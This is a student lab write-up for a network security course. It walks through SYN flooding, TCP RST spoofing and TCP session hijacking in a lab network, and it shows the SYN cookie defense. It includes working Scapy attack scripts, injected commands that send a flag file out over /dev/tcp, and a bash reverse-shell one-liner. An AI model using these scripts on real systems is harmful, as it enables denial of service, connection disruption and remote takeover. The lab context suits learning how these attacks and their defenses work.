

# 50.020 Network Security - Lab 2 Writeup

## Task 1
### Task 1.1 synfloodafter_synflood
- We are asked to perform a SYN flood attack on the victim machine with IP address: `10.9.0.5`
- before we start the attack we check the victim machine's TCP connections using `netstat -nat`
    - 
    - We see that there are only 2 established local connections 
- Using the python script `synflood.py`
    - ```python
        #!/bin/env python3

        from scappy.all import IP,TCP,send
        from ipaddress import IPv4Address
        from random import getrandbits

        ip = IP(dst="10.9.0.5")
        tcp = TCP(dport=23, flags=’S’)
        pkt = ip/tcp

        while True:
            pkt[IP].src = str(IPv4Address(getrandbits(32))) # source iP
            pkt[TCP].sport = getrandbits(16) # source port
            pkt[TCP].seq = getrandbits(32) # sequence number
            send(pkt, verbose = 0)
        ```
- After we run the script we check the victim machine's TCP connection again using `netstat -nat`
    - 
    - now we see that there are many more connections, and most of them are in the `SYN_RECV` state
- When trying to connect to the victim machine using `telnet 10.9.0.5`, we however still see the connection is still successful
    - 
    - As per the assignment brief, this is because the attack is not strong enough to overwhelm the victim machine as python is slow.
    - we can decrease the TCP Control Block (TCB) Size to 50, and use multiple instances of the python script to run the attack 
        - ```bash
            //instruction to decrease TCB size to 50
            sysctl -w net.ipv4.tcp_max_syn_backlog=50 
            ```
    - 
    - Now we see that the telnet connection is unsuccessful as the victim machine is overwhelmed by the SYN flood attack.

### Task 1.2 synflood with C
- We are asked to perform a SYN flood attack on the victim machine now with the provided C code `synflood.c`
- we compile the C code using `gcc -static synflood.c -o synflood` (I am using ARM64 Mac so I need to use `-static` flag)
- Then we check the victim machine's TCP connections using `netstat -nat` and the TCB size using `sysctl net.ipv4.tcp_max_syn_backlog` before the attack
    - 
    - We see that there are only 2 established local connections and the TCB size is 256
- After we run the compiled C code `./synflood`, we try to connect to the victim machine using `telnet 10.9.0.5`
    - 
    - We see that the telnet connection is unsuccessful as the victim machine is overwhelmed by the SYN flood attack that is performed using C code.
- The reason why the C code is more effective than the python script is because C is a lower-level language that is compiled by an Ahead Of Time (AOT) compiler, which translates the code directly into machine code that can be executed very quickly by the CPU. Python on the other hand, is an interpreted language, which means that the code is executed line by line by an interpreter at runtime, which adds significant overhead and makes the execution considerably slower. This results in the C code being able to send packets at a much higher rate and overwhelm the victim machine more effectively than the python script, even when the TCB size is restored to the original value of 256. TLDR: C is super fast and python is slow.

### Task 1.3 Enabling SYN cookie mechanism
- We are asked to enable the SYN cookie mechanism on the victim machine to defend against SYN flood attacks by using the command `sysctl -w net.ipv4.tcp_syncookies=1`
- We check the victim machine's TCP connections using `netstat -nat` and the TCB size using `sysctl net.ipv4.tcp_max_syn_backlog` before the attack.
    - 
    - we see that there are only 2 established local connections and the TCB size is 256 and the SYN cookies is enabled (set to 1)
- Then we run the `./synflood` C code again to perform the SYN flood attack
- 
- We see that the telnet connection is successful even after the SYN flood attack, which means that the SYN cookie mechanism is effective in defending against SYN flood attacks, as the SYN cookie mechanism works by not allocating resources for a connection until the handshake is completed.

## Task 2 TCP RST Attacks on telnet connections
- We are asked to spoof a TCP RST packet to terminate an existing telnet connection between 2 machines.
- For this I create a telnet connection between victim machine, IP address: `10.9.0.5`, and host 1, IP address: `10.9.0.6`.
    - 
- Then Using Wireshark, I capture the packets between the 2 machines and filter the packets using `tcp`, we see that the telnet connection is established using a 3-way handshake, then we observe the src port and dst port of the packets as well as the sequence number:
    - 
    - **src port**: 32866
    - **dst port**: 23
    - **sequence number**: 3081787589
- Then I edit the python script `spoof_rst.py` to spoof a TCP RST packet with the correct src port, dst port, and sequence number
    - ```python
        #!/usr/bin/env python3
        from scapy.all import *
        ip = IP(src="10.9.0.5", dst="10.9.0.6")
        tcp = TCP(sport=32866, dport=23, flags="R", seq=3081787589)
        pkt = ip/tcp
        ls(pkt)
        send(pkt, verbose=0)
        ```
- Then after running the script `python3 spoof_rst.py`, we see that the telnet connection is terminated:
    - 
    - `Connection closed by foreign host.` in the victim machine terminal shows that the telnet connection is terminated by the spoofed TCP RST packet.
## Task 2 Optional: automating the TCP RST attack
- We are asked to sniff and spoof the TCP RST packet automatically using a python script.
- I create a python script `auto_rst.py` that sniffs the packets and spoofs
    - ```python
        #!/usr/bin/env python3
        from scapy.all import *
        import time
        import threading

        sequenceNumber = 0
        sourcePort = 0
        lastPacketTime = None
        timeout = 10 
        done = False

        def resetConnection():
            """Crafts and sends a TCP RST packet to terminate the connection."""
            global sequenceNumber, sourcePort, done
            print(f"\n[!] No packets seen for {timeout} seconds. Sending RST packet...")
            ip = IP(src="10.9.0.5", dst="10.9.0.6")
            # uses last seen sequence number and port to target the connection
            tcp = TCP(sport=sourcePort, dport=23, flags="R", seq=sequenceNumber)
            pkt = ip/tcp
            
            print("[+] Reset packet details:")
            ls(pkt)
            
            send(pkt, verbose=0)
            done = True
            print("[+] Reset packet sent. Exiting.")
            exit(0)

        def process_packet(pkt):
            """Callback function to update state with each sniffed packet."""
            global sequenceNumber, sourcePort, lastPacketTime
            # Check if the packet has a TCP layer
            if TCP in pkt:
                lastPacketTime = time.time()
                sequenceNumber = pkt[TCP].seq
                sourcePort = pkt[TCP].sport
                print(f"[*] Packet sniffed. Seq: {sequenceNumber}, Port: {sourcePort}")

        def check_for_reset():
            """Continuously checks if the connection has timed out."""
            global lastPacketTime
            while True:
                # timeout has been exceeded and we did not see any packets
                if lastPacketTime is not None and (time.time() - lastPacketTime > timeout):
                    resetConnection()
                    break 
                time.sleep(1)

        # Start packet sniffing in a separate thread
        # The sniff function will call process_packet for every TCP packet it sees
        print("[*] Starting packet sniffer in the background...")
        sniff_thread = threading.Thread(target=lambda: sniff(iface='br-82f1d76314d9', filter='tcp', prn=process_packet))
        sniff_thread.daemon = True # Allows the main program to exit even if this thread is running
        sniff_thread.start()

        # Check for the reset opportunity
        if not done:
            print("[*] Monitoring for idle connection...")
            check_for_reset()
        ```
    - Then we see that the script is sniffing the packets and updating the sequence number and source port, then after 10 seconds of no packets seen, it sends the spoofed TCP RST packet to terminate the connection.
        - 
    - we see that the telnet connection is terminated.

## Task 3 TCP Session Hijacking
- I create a `flag.txt` file in the `/secret` directory of host 1, IP address: `10.9.0.6` with the content `HEY WHAT R U TRYNA DO HUH??`
    - 
- Similar to task 2 we start a telnet connection between the victim machine, IP address: `10.9.0.5` and host 1, IP address: `10.9.0.6`
    - 
- Then using wireshark, we check the last packet sent and note down the src port, dst port, and sequence number
    - 
    - **src port**: 48450
    - **dst port**: 23
    - **sequence number**: 1879884514
    - **ack number**: 4039886615
- Then we create a python script `tcp_hijack.py` to spoof a TCP packet with the correct src port, dst port, and sequence number to inject a command `cat /secret/flag.txt > /dev/tcp/10.9.0.5/9090` into the telnet session
    - ```python
        #!/usr/bin/env python3
        from scapy.all import *
        ip = IP(src="10.9.0.5", dst="10.9.0.6")
        tcp = TCP(sport=36002, dport=23, flags="A", seq=1617464057, ack=2704848646)
        data = "\ncat /secret/flag.txt > /dev/tcp/10.9.0.5/9090\n"
        pkt = ip/tcp/data
        ls(pkt)
        send(pkt, verbose=0)
        ```
- then on the host VM, ip address: `10.9.0.5`, we start a netcat listener on port 9090 using `nc -l -p 9090`
- Then we run the python script `python3 tcp_hijack.py` to inject the command into the telnet session
- We see that the command is executed and the flag is sent to the netcat listener on the host VM
    - 

## Task 3 Optional: Automating TCP Session Hijacking
- We are asked to automate the TCP session hijacking using a python script
- I adapted the earlier python script `auto_tcp_hijack.py` that sniffs the packets and spoofs the TCP packet to inject the command into the telnet session
    - ```python
        #!/usr/bin/env python3
        from scapy.all import *
        import time
        import threading

        sequenceNumber = 0
        ackNumber = 0
        sourcePort = 0
        lastPacketTime = None
        timeout = 10 
        done = False

        def hijackConnection():
            """Crafts and sends a TCP A packet to terminate the connection."""
            global sequenceNumber, ackNumber, sourcePort, done
            print(f"\n[!] No packets seen for {timeout} seconds. Sending hijack command packet...")
            ip = IP(src="10.9.0.5", dst="10.9.0.6")
            # uses last seen sequence number and port to target the connection
            tcp = TCP(sport=sourcePort, dport=23, flags="A", seq=sequenceNumber, ack=ackNumber)
            data = "\ncat /secret/flag.txt > /dev/tcp/10.9.0.1/9090\n"
            pkt = ip/tcp/data
            print("[+] Hijack packet details:")
            ls(pkt)
            
            send(pkt, verbose=0)
            done = True
            print("[+] Hijack packet sent. Exiting.")
            exit(0)

        def process_packet(pkt):
            """Callback function to update state with each sniffed packet."""
            global sequenceNumber, ackNumber, sourcePort, lastPacketTime
            # Check if the packet has a TCP layer
            if TCP in pkt:
                lastPacketTime = time.time()
                sequenceNumber = pkt[TCP].seq
                ackNumber = pkt[TCP].ack
                sourcePort = pkt[TCP].sport
                print(f"[*] Packet sniffed. Seq: {sequenceNumber}, Ack: {ackNumber}, Port: {sourcePort}")

        def check_for_hijack():
            """Continuously checks if the connection has timed out."""
            global lastPacketTime
            while True:
                # timeout has been exceeded and we did not see any packets
                if lastPacketTime is not None and (time.time() - lastPacketTime > timeout):
                    hijackConnection()
                    break 
                time.sleep(1)

        # Start packet sniffing in a separate thread
        # The sniff function will call process_packet for every TCP packet it sees
        print("[*] Starting packet sniffer in the background...")
        sniff_thread = threading.Thread(target=lambda: sniff(iface='br-82f1d76314d9', filter='tcp', prn=process_packet))
        sniff_thread.daemon = True # Allows the main program to exit even if this thread is running
        sniff_thread.start()

        # Check for the hijack opportunity
        if not done:
            print("[*] Monitoring for idle connection...")
            check_for_hijack()
        ```
- we start the netcat listener on host VM on port 9090 using `nc -l -p 9090`
- Then we run the python script `sudo python3 auto_tcp_hijack.py` to sniff and spoof the TCP packet to inject the command into the telnet session
    - 
- we see that the command is executed and the flag is sent to the netcat listener on the host VM

## Task 4 Getting Reverse Shell using Automated TCP Session Hijacking
- We are asked to get a reverse shell on the victim machine using the TCP session hijacking technique
- For this task our victim machine is host 1, IP address: `10.9.0.6` and our host machine is victim machine, IP address: `10.9.0.5`, counter intuitive, but the victim machine is the victim of the spoofing.
- Then getting a reverse shell is trivial as we can just use the same technique as task 3 to inject the reverse shell command into the telnet session instead of the `cat` command
- ```python
    #!/usr/bin/env python3
    from scapy.all import *
    import time
    import threading

    sequenceNumber = 0
    ackNumber = 0
    sourcePort = 0
    lastPacketTime = None
    timeout = 10 
    done = False

    def hijackConnection():
        """Crafts and sends a TCP A packet to terminate the connection."""
        global sequenceNumber, ackNumber, sourcePort, done
        print(f"\n[!] No packets seen for {timeout} seconds. Sending hijack command packet...")
        ip = IP(src="10.9.0.5", dst="10.9.0.6")
        # uses last seen sequence number and port to target the connection
        tcp = TCP(sport=sourcePort, dport=23, flags="A", seq=sequenceNumber, ack=ackNumber)
        data = "\nbash -i >& /dev/tcp/10.9.0.1/9090 0>&1\n"
        pkt = ip/tcp/data
        print("[+] Hijack packet details:")
        ls(pkt)
        
        send(pkt, verbose=0)
        done = True
        print("[+] Hijack packet sent. Exiting.")
        exit(0)

    def process_packet(pkt):
        """Callback function to update state with each sniffed packet."""
        global sequenceNumber, ackNumber, sourcePort, lastPacketTime
        # Check if the packet has a TCP layer
        if TCP in pkt:
            lastPacketTime = time.time()
            sequenceNumber = pkt[TCP].seq
            ackNumber = pkt[TCP].ack
            sourcePort = pkt[TCP].sport
            print(f"[*] Packet sniffed. Seq: {sequenceNumber}, Ack: {ackNumber}, Port: {sourcePort}")

    def check_for_hijack():
        """Continuously checks if the connection has timed out."""
        global lastPacketTime
        while True:
            # timeout has been exceeded and we did not see any packets
            if lastPacketTime is not None and (time.time() - lastPacketTime > timeout):
                hijackConnection()
                break 
            time.sleep(1)

    # Start packet sniffing in a separate thread
    # The sniff function will call process_packet for every TCP packet it sees
    print("[*] Starting packet sniffer in the background...")
    sniff_thread = threading.Thread(target=lambda: sniff(iface='br-82f1d76314d9', filter='tcp', prn=process_packet))
    sniff_thread.daemon = True # Allows the main program to exit even if this thread is running
    sniff_thread.start()

    # Check for the hijack opportunity
    if not done:
        print("[*] Monitoring for idle connection...")
        check_for_hijack()
    ```
- before we run the script, we start a netcat listener on host machine on port 9090 using `nc -l -p 9090`
- Then we run the python script `sudo python3 auto_tcp_hijack.py` to sniff and spoof the TCP packet to inject the reverse shell command into the telnet session
    - 
    - we see that we have opened a reverse shell on host 1, IP address: `10.9.0.1` and we can now cat `/secret/flag.txt` to get the flag, which proves that we are indeed in the file system of host 1, IP address: `10.9.0.6`.


        
